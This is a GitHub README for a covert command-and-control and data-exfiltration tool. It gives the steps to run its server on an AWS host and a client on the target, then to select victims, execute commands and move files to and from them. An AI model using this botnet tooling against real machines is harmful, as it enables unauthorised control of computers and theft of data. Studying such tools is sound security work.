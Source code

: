 # Covert C&C and Exfiltration

#### https://github.com/HyejunJeong/covert-cnc-exfiltration

This program is a client and a server for covert command and control of, and data exfiltration from, an infected client. 


#### Requirements 
* Linux
* python3

## Getting Started

This project is divided into the server and client program.


### Running the __Server__

1. cd to the project directory, and ssh into aws cloud server. 
    ```shell
    chmod 700 ./aws_key.pem 
    ssh -i "aws_key.pem" ubuntu@ec2-18-205-103-236.compute-1.amazonaws.com
    ```
2. In the aws cloud server, cd to covert-cnc-exfiltration and run the server.
    ```shell
    cd covert-cnc-exfiltration
    sudo python3 server2.py
    ```

### Running the __Client__
> **Note:** You will have to **start the server first** before running the client.

1. Clone this repository.
    ```shell
    git clone https://github.com/HyejunJeong/covert-cnc-exfiltration
    ```

2. Run the client on the project directory (in the client machine).
    ```shell
    python3 client2.py
    ```
    > **Note:** By running client2.py on your computer will give the cloud server control of your computer (hence "botnet"), so it's good idea to use a virtual machine instead of your actual computer.



## Instructions

1. In the server, wait for the client connection and run ```shell list ``` to see connected clients.

2. Run ```shell select <client number>``` to select the target
3. Try running a command. 

3-1. If your command is invalid, it will print an error message, "No such file or directory: ...". This is because subprocesses uses the underlying POSIX execve and that's what it will report if command is invalid.

4. You can download and upload files using ```shell download <file name from target> ``` and ```shell upload <file name from C&C computer> ``` to download and send files from/to victim respectively.
4-1. If you do download/upload on a file that doesn't exist, it will give you the same error (No such file or directory: ...).

5. Press ``Ctrl-C`` to shut down the server.
